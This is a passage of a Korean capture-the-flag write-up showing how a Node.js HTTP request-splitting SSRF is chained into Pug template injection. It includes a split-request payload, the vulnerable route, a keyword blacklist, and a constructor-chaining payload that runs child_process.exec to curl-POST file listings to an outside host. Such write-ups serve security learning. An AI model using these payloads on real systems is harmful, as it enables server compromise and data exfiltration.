```http
GET /core?q=test HTTP/1.1
HOST: 127.0.0.1

GET /flag HTTP/1.1
HOST: 127.0.0.1
adminauth: secretpassword
pug: 123
test: ~~~~ 원래 전달 되야 하는 request를 test의 헤더로 무시
```

그리고 실제로 서버에서 이런 형태로 로그를 보여 주는 것을 확인 할 수 있습니다.

![](./image/nodejs-HTTP-request-splitting을-이용한-SSRF-취약점featNullCon2020-splitsecond-WriteUp/M9dhQS2RyAkV9kx6VLMEpkimg.png)

이제 flag 쪽 소스를 분석 합니다.

```js
app.get("/flag", function (req, res) {
  var ip = req.connection.remoteAddress
  if (ip.includes("127.0.0.1")) {
    var authheader = req.headers["adminauth"]
    var pug2 = decodeURI(req.headers["pug"])
    var x = pug2.match(/[a-z]/g)
    if (!x) {
      if (authheader === "secretpassword") {
        var html = pug.render(pug2)
      }
    } else {
      res.send("No characters")
    }
  } else {
    res.send("You need to come from localhost")
  }
})
```

일단 첫 번째 조건인 접근 IP가 127.0.0.1 이여야 한다는 점 그리고 adminauth: secretpassword 형태의 header가 달려있어야 한다는 두 가지 조건은 해결이 되었습니다.

이제 pug헤더에 영문이 없어야 하고 이것이 지켜 졌을 때 pug를 이용하여 렌더링을 시켜 주게 되는데 일단 pug가 무엇 인지 찾아 봅니다.

> # Code
>
> Pug allows you to write inline JavaScript code in your templates. There are three types of code: Unbuffered, Buffered, and Unescaped Buffered.

javascript와 pug 문법을 이용하여 간결하게 html을 렌더링 하게 도와주는 것으로 보입니다. 이때 js를 이용하여 렌더링 한다는 것을 이용하여 공격을 해봅니다.

또한 blackList 체크 항목에 있는 **["global", "process","mainModule","require","root","child\_process","exec",""","'","!"]** 을 이용하여 공격을 하면 될 것 같습니다.

```
-[]["constructor"]["constructor"]("console.log(this.process.mainModule.require('child_process').exec('curl http://devjs.cf:8089/cookie.php -X POST -d c=`ls | grep flag` '))")()
```
